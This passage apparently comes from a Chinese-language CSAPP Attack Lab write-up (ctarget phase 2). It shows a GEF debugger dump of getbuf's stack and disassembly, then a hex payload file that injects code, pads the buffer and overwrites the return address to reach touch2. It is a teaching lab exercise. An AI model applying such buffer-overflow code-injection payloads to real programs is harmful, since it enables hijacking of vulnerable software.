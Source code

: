 ```assembly
$r11   : 0x00007ffff7b7f970  →  <__memset_avx2+0> vpxor xmm0, xmm0, xmm0
$r12   : 0x0000000000000002
$r13   : 0x0000000000000000
$r14   : 0x0000000000000000
$r15   : 0x0000000000000000
$cs    : 0x0000000000000033
$ss    : 0x000000000000002b
$ds    : 0x0000000000000000
$es    : 0x0000000000000000
$fs    : 0x0000000000000000
$gs    : 0x0000000000000000
$eflags: [carry PARITY ADJUST zero sign trap INTERRUPT direction overflow resume virtualx86 identification]
───────────────────────────────────────────────────────────────────────[ stack ]────
0x0000000055652778│+0x00: 0x00000000000000f4	 ← $rsp
0x0000000055652780│+0x08: 0x00000000556527d0  →  0xf4f4f4f4f4f4f4f4
0x0000000055652788│+0x10: 0x0000000055652788
0x0000000055652790│+0x18: 0x0000000055652790
0x0000000055652798│+0x20: 0x0000000055652798
0x00000000556527a0│+0x28: 0x00000000556527a0
0x00000000556527a8│+0x30: 0x0000000055586000  →  0x0000000055586000
0x00000000556527b0│+0x38: 0x00000000004019c4  →  <test+14> mov edx, eax
─────────────────────────────────────────────────────────────[ code:i386:x86-64 ]────
     0x4017e0 <scramble+1149>  xor    rsi, QWORD PTR fs:0x28
     0x4017e9 <scramble+1158>  je     0x4017f0 <scramble+1165>
     0x4017eb <scramble+1160>  call   0x400cf0 <__stack_chk_fail@plt>
     0x4017f0 <scramble+1165>  add    rsp, 0x38
     0x4017f4 <scramble+1169>  ret    
     0x4017f5 <getbuf+0>       sub    rsp, 0x38
 →   0x4017f9 <getbuf+4>       mov    rdi, rsp
     0x4017fc <getbuf+7>       call   0x401a7f <Gets>
     0x401801 <getbuf+12>      mov    eax, 0x1
     0x401806 <getbuf+17>      add    rsp, 0x38
     0x40180a <getbuf+21>      ret    
     0x40180b <touch1+0>       sub    rsp, 0x8
─────────────────────────────────────────────────────────────────────[ threads ]────
[#0] Id 1, Name: "ctarget", stopped, reason: SINGLE STEP
───────────────────────────────────────────────────────────────────────[ trace ]────
[#0] 0x4017f9 → Name: getbuf()
[#1] 0x4019c4 → Name: test()
[#2] 0x401f5b → Name: launch(offset=<optimized out>)
[#3] 0x402031 → Name: stable_launch(offset=<optimized out>)
───────────────────────────────────────────────────────────────────────────────────
```

构造攻击代码 `phase2.txt` 如下：

```
48 c7 c7 3a 4e db 47 c3
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41
78 27 65 55 00 00 00 00
37 18 40 00 00 00 00 00
```
